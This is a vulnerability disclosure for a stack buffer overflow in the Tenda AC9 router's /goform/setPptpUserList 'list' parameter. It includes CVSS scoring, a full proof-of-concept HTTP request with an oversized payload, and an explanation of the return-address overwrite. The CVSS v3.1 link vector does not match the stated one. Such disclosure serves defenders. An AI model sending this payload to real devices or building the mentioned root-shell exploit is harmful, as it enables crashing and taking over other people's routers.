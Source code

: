 # Tenda AC9 Wireless Router /goform/setPptpUserList list Stack Overflow

## 1 Basic Information

- Vulnerability Type: Buffer overflow
- Vulnerability Description: A buffer overflow vulnerability exists in the Tenda AC9 wireless router, firmware version V15.03.05.19. Its /goform/setPptpUserList implementation has a security vulnerability in the processing of list POST parameters, allowing remote attackers to use the vulnerability to submit special requests, resulting in buffer overflow, which can seriously lead to the execution of arbitrary OS commands.
- Device model:
   - Tenda AC9 Wireless Router
   - Firmware Version: V15.03.05.19

## 2 Vulnerability Value

- Stable Reproducibility: yes
- Vulnerability Score (refer to CVSS)
   - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator ?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov /vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploit Conditions
   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of exploit
     - Permission Constraints: identity authentication is required
     - User Interaction: no victim interaction required
   - Scope of Impact: Changed (can affect components other than vulnerable components)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of exploits: stable recurrence
   - Whether the product is configured by default: there are loopholes in the functional components that are enabled from the factory
- Exploit Effect
   - Denial of service
   - Remote Code Execution (RCE)

## 3 PoC

```http
POST /goform/setPptpUserList HTTP/1.1
Host: 10.37.129.2:8081
Connection: keep-alive
Content-Length: 2048
Accept: */*
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.37.129.2:8081
Referer: http://10.37.129.2:8081/system_led.html?random=0.7969342657337226&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=sou23f

list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;asd;1;0;;;list=admin;admiansd;1;0;;;~sadw;
```

* Before
  * ![](1.png)
* Send PoC
  * ![](2.png)
* After
  * ![](3.png)

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.

## 4 Vulnerability Principle

When the web management component receives a POST request, its /goform/setPptpUserList component implements a security vulnerability in processing the list POST parameter. The length of the list parameter can be any length and is placed on the stack without checking, resulting in stack overflow. Attackers can use this vulnerability to overwrite the return address, and then be exploited to achieve the effect of remote arbitrary command execution.